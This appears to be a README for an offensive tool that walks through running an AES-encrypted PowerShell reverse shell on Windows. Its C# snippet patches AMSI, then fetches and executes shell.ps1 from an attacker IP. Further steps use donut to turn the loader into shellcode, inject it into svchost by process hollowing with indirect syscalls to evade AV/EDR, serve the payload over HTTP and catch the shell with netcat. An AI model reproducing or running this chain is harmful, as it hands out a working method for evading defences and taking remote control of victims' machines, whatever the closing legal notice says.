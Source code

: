 # Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **full indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -b 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the provided Python script to AES-encrypt the generated shellcode. It also formats the output into C# arrays:

```bash
python3 Aes_encryption.py
```

Paste the output into the `ShellCode_Runner.cs` file:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🧠 Step 4 - Execute with Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory using **indirect syscall**
- Decrypt and inject the AES shellcode into the target process
- Change memory protection and launch a remote thread using **indirect syscall**

✅ All key syscalls (`NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are executed from manually copied stubs placed in memory, effectively bypassing userland hooks set by AV/EDR.

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell should be saved as `shell.ps1`.

Then serve the file using Python’s built-in HTTP server:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

To catch the reverse shell, start a listener using `netcat` and `rlwrap` for a better terminal experience:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is patched silently via .NET Reflection
- PowerShell payload is downloaded and executed in memory
- Shellcode is encrypted with AES and executed via **fully indirect syscalls**
- Process is created with PPID spoofing
- Tested successfully in OSEP lab environments with Windows Defender enabled

---

**⚠️ Legal Notice:**  
This tool is intended for educational purposes and authorized penetration testing only.  
Do **not** use this code outside of lab environments or without proper authorization.
